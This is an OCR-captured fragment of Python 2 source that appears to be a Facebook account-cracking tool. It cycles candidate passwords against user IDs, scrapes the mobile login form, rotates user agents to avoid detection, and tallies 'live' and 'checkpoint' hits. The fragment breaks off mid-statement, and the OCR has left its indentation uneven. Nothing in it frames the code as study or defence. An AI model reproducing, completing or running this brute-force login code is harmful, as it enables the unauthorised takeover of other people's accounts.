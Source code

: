 				else:
					if eml_dev in hasil_cp:
						pass
					else:
						__cp__(eml_dev, san_dev)
						break
						
			else:
				pass
		except:
			count_ -= 1
			crack_dev_api(iqbal_, dev___)
			

def crack_dev(iqbal_, dev___):
  	global count_, user_agent
	eml_dev = iqbal_
	print a+"\r>\033[92;1mCrack\033[96;1m->\033[97;1m{}\033[92;1m/\033[97;1m{}\033[96;1m|\033[92;1mLive\033[96;1m/\033[93;1mCek:\033[92;1m{}\033[96;1m/\033[93;1m{}".format(len(user_id),count_,len(hasil_ok),len(hasil_cp)),
	sys.stdout.flush()
	count_ +=1	

	if 2 == len(eml_dev):
		eml_dev = eml_dev[0]
		ttl = iqbal_[1]

	for san_ in dev___:
		try:
		 	san_dev = san_.lower()
			url_page_log = "https://m.facebook.com/login.php?skip_api_login=1&api_key=124024574287414&kid_directed_site=0&app_id=124024574287414&signed_next=1&next=https%3A%2F%2Fwww.facebook.com%2Fdialog%2Foauth%3Fclient_id%3D124024574287414%26redirect_uri%3Dhttps%253A%252F%252Fwww.instagram.com%252Faccounts%252Fsignup%252F%26state%3D%257B%2522fbLoginKey%2522%253A%25221aftew690wwti1dt2dpc1hekoyw1kx6wd6a5ivz72212fnl11gpi%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252F%2522%257D%26scope%3Demail%26response_type%3Dcode%252Cgranted_scopes%26locale%3Did_ID%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3De7aff248-989f-4b4f-9e41-1f437903a29c%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.instagram.com%2Faccounts%2Fsignup%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522fbLoginKey%2522%253A%25221aftew690wwti1dt2dpc1hekoyw1kx6wd6a5ivz72212fnl11gpi%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252F%2522%257D%23_%3D_&display=page&locale=id_ID&pl_dbl=0&_rdc=1&_rdr"

			if "IqbalDev" in log_ml_dev:
				url_page_log = __ml_dev__
			if "IqbalDev" in log_ff_dev:
				url_page_log = __ff_dev__
			with requests.Session() as ses_dev:
				page_dev = ses_dev.get(url_page_log).content
				sop = BeautifulSoup(page_dev, "html.parser")
				form_dev = sop.find("form", id="login_form")
				url_post = form_dev["action"]
				waktu = time.time()
				
				if len(ua_hp) == 0:
					user_agent = open("ua_dev.txt", "r").read()
				else:
					user_agent = random.choice(user_agent_dev)
				payload = {}
				pay_dev = {}
				for dev in form_dev:
					input = dev
					try:
						payload[input.get("name")] = input.get("value")
					except:
						pass
				pay_dev.update({
								"lsd": str(payload["lsd"]),